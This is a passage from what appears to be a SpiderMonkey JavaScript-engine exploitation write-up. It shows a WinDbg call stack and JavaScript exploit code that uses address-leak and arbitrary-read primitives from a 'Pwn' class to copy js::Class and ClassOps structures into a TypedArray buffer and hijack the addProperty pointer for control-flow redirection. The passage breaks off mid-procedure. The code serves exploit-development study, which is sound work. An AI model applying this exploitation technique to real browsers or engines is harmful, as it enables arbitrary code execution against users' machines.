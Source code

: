```text
05 js!js::NativeSetProperty<1>
06 js!js::SetProperty
07 js!SetPropertyOperation
08 js!Interpret
09 js!js::RunScript
0a js!js::ExecuteKernel
0b js!js::Execute
0c js!ExecuteScript
0d js!JS_ExecuteScript
0e js!RunFile
0f js!Process
10 js!ProcessArgs
11 js!Shell
12 js!main
13 js!invoke_main
14 js!__scrt_common_main_seh
15 KERNEL32!BaseThreadInitThunk
16 ntdll!RtlUserThreadStart
```

Thanks to the `Pwn` class we wrote earlier this should be pretty easy to pull off. We can use `Pwn.AddrOf` to leak an object address (called `Target` below), follow the chain of pointers and recreating those structures by just copying their content into the backing buffer of a TypedArray for example (called `MemoryBackingObject` below). Once this is done, simply we overwrite the `addProperty` field of our target object.

```JavaScript
//
// Retrieve a bunch of addresses needed to replace Target's clasp_ field.
//

const Target = new Uint8Array(90);
const TargetAddress = Pwn.AddrOf(Target);
const TargetGroup_ = Pwn.ReadPtr(TargetAddress);
const TargetClasp_ = Pwn.ReadPtr(TargetGroup_);
const TargetcOps = Pwn.ReadPtr(Add(TargetClasp_, 0x10));
const TargetClasp_Address = Add(TargetGroup_, 0x0);

const TargetShapeOrExpando_ = Pwn.ReadPtr(Add(TargetAddress, 0x8));
const TargetBase_ = Pwn.ReadPtr(TargetShapeOrExpando_);
const TargetBaseClasp_Address = Add(TargetBase_, 0);

const MemoryBackingObject = new Uint8Array(0x88);
const MemoryBackingObjectAddress = Pwn.AddrOf(MemoryBackingObject);
const ClassMemoryBackingAddress = Pwn.ReadPtr(Add(MemoryBackingObjectAddress, 7 * 8));
// 0:000> ?? sizeof(js!js::Class)
// unsigned int64 0x30
const ClassOpsMemoryBackingAddress = Add(ClassMemoryBackingAddress, 0x30);
print('[+] js::Class / js::ClassOps backing memory is @ ' + MemoryBackingObjectAddress.toString(16));

//
// Copy the original Class object into our backing memory, and hijack
// the cOps field.
//

MemoryBackingObject.set(Pwn.Read(TargetClasp_, 0x30), 0);
MemoryBackingObject.set(ClassOpsMemoryBackingAddress.bytes(), 0x10);

//
// Copy the original ClassOps object into our backing memory and hijack
// the add property.
//

```